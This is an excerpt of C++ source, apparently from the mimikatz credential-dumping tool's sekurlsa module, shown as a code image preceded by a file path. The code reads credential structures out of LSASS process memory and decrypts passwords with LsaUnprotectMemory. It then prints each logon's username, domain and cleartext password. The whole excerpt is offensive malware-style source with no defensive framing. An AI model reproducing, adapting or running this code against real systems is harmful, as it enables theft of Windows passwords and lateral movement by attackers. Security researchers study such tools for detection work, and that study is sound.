 ```cpp
                }
                if(kull_m_process_getUnicodeString(&mesCreds->Password, cLsass.hLsassMem) /*&& !kull_m_string_suspectUnicodeString(&mesCreds->Password)*/)
                {
                    if(!(flags & KUHL_SEKURLSA_CREDS_DISPLAY_NODECRYPT)/* && *lsassLocalHelper->pLsaUnprotectMemory*/)
                        (*lsassLocalHelper->pLsaUnprotectMemory)(mesCreds->Password.Buffer, mesCreds->Password.MaximumLength);
                    password = &mesCreds->Password;
                }

                if(password || !(flags & KUHL_SEKURLSA_CREDS_DISPLAY_WPASSONLY))
                {
                    kprintf((flags & KUHL_SEKURLSA_CREDS_DISPLAY_LINE) ?
                        L"%wZ\t%wZ\t"
                        :
                        L"\n\t * Username : %wZ"
                        L"\n\t * Domain   : %wZ"
                        L"\n\t * Password : "
                        , username, domain);

                        if(password)
                        {
                            if(kull_m_string_suspectUnicodeString(password))
                            {
                                if((flags & KUHL_SEKURLSA_CREDS_DISPLAY_CREDMANPASS))
                                    kprintf(L"%.*s", password->Length / sizeof(wchar_t), password->Buffer);
                                else kprintf(L"%wZ", password);
                            }
                            else kull_m_string_wprintf_hex(password->Buffer, password->Length, 1);
                        }
                        // ...
                        else kprintf(L"(null)");

                        if(username)
                            kuhl_m_sekurlsa_trymarshal(username);

                }

                // ...
            }
        }
        if(flags & KUHL_SEKURLSA_CREDS_DISPLAY_NEWLINE)
            kprintf(L"\n");

        if(sid)
            LocalFree(sid);
    }
    else kprintf(L"LUID KO\n");
}
```
